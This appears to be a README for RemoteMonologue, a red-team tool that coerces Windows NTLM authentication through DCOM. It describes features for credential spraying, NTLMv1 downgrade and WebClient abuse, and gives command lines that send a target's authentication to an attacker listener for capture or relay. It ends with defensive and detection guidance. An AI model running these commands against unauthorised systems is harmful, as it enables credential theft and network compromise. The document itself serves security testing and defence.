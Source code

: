 # RemoteMonologue

RemoteMonologue is a Windows credential harvesting technique that enables remote user compromise by leveraging the Interactive User RunAs key and coercing NTLM authentications via DCOM. 

Read X-Force Red's [RemoteMonologue: Weaponizing DCOM for NTLM  Authentication Coercions] for detailed information.

## **Features**  

🔹 **Authentication Coercion via DCOM (`-dcom`)**  
- Targets three DCOM objects (`ServerDataCollectorSet`, `FileSystemImage`, `UpdateSession`) to trigger an NTLM authentication against a specified listener (`-auth-to`).  

🔹 **Credential Spraying (`-spray`)**  
- Validate credentials across multiple systems while also capturing user credentials.  

🔹 **NetNTLMv1 Downgrade Attack (`-downgrade`)**  
- Force targets to use NTLMv1, making credential cracking and relaying easier.  

🔹 **WebClient Service Abuse (`-webclient`)**  
- Enables the WebClient service to facilitate HTTP-based authentication coercion.  

🔹 **User Enumeration (`-query`)**  
- Identify users with an active session on the target system.  

**Note:** Local administrator privileges to the target system is required.  

## **Setup**

```bash
pip install impacket
```

## **Examples**

Below is an example of running RemoteMonologue with the NetNTLMv1 downgrade attack while using `Responder` as the listener. By default, if no DCOM option is specified, the tool uses the `ServerDataCollectorSet` DCOM object.

```bash
RemoteMonologue.py domain/user:password@target -auth-to [listener IP] -downgrade
```

![image](https://github.com/user-attachments/assets/ada8f741-754f-4c50-9743-a6d9145f7407)


Below is another example, this time the attack is executed using the `FileSystemImage` DCOM object and enabling the WebClient service to obtain an HTTP authentication, which is then relayed to LDAP using `ntlmrelayx`.

```bash
RemoteMonologue.py domain/user:password@target -auth-to [listener NETBIOS@PORT] -webclient -dcom FileSystemImage
```

![image](https://github.com/user-attachments/assets/f79d879a-ac4b-4436-a453-359d6e2eba72)


## **Defensive Considerations**

To protect against and detect these techniques, there are several preventative and detection measures that can be implemented.

Preventative measures:

1.	Enable LDAP Signing and Channel Binding: Configure LDAP signing enforcement and channel binding on domain controllers to protect the LDAP endpoint from relay attacks. Note: These settings will be enforced by default starting with Windows Server 2025.

2.	Upgrade to the Latest Windows Versions: Upgrade servers to Windows Server 2025 and workstations to Windows 11 version 24H2 to mitigate NetNTLM downgrade attacks, as NTLMv1 has been removed in these versions.

3.	Enforce SMB Signing: Enable and enforce SMB signing on Windows servers to prevent SMB relay attacks.

4.	Implement Strong Password Policies: Enforce strong password requirements to make password cracking attacks more challenging.

Detection opportunities:

1.	Monitor Remote Access to DCOM Objects: Track access to the affected DCOM objects and their specific Properties and Methods to identify unusual activity.

2.	Monitor Registry Modifications: Monitor changes to the RunAs and LmCompatibilityLevel registry keys.

3.	Track WebClient Service Activity: Monitor for instances where the WebClient service is enabled remotely, as this is used to facilitate HTTP-based NTLM authentications.



[RemoteMonologue: Weaponizing DCOM for NTLM  Authentication Coercions]: https://www.ibm.com/think/x-force/remotemonologue-weaponizing-dcom-ntlm-authentication-coercions
